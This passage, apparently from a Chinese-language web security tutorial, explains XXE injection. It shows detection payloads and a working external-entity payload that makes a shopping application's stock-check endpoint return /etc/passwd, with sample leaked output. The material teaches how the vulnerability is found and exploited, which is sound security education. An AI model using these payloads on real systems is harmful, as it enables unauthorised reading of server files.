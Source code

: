 这里以 Code1 代码为例，XML 外部实体 passwd 被赋予的值为 file:///etc/passwd，在解析 XML 文档的过程中实体 passwd 的值会被替换为 URI(file:///etc/passwd) 内容值 (也就是 passwd 文件的内容)，关键字"SYSTEM"会告诉 XML 解析器 passwd 实体的值将从其后的 URI 中读取，从而导致文件读取并造成信息泄露

## 注入检测

Step 1：检测 XML 是否会被成功解析，如果页面输出 my name is nMask，则说明 xml 文件可以被解析

```bash
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY name "my name is nMask">]>

<root>&name;</root>
```

Step 2：检测服务器是否支持 DTD 引用外部实体，可以通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求 index.html 的请求

```bash
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
```

## 注入案例

### 利用 XXE 检索文件

#### 基本介绍

从服务器文件系统中检索任意文件的 XXE 注入攻击需要以两种方式修改提交的 XML

-   引入 DOCTYPE 元素，该元素定义包含文件路径的外部实体
-   编辑应用程序响应中返回的 XML 中的数据值以利用已定义的外部实体

例如：假设一个购物应用程序通过向服务器提交以下 XML 来检查产品的库存水平

```bash
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

由于应用程序对 XXE 攻击没有执行特定的防御，因此您可以利用 XXE 漏洞通过提交以下 XXE 负载来检索/etc/passwd 文件：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

上述 XXE 有效载荷定义了一个外部实体&XXE;其值是/etc/passwd 文件的内容并使用 productId 值中的实体，这会导致应用程序的响应包括文件的内容：

```bash
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
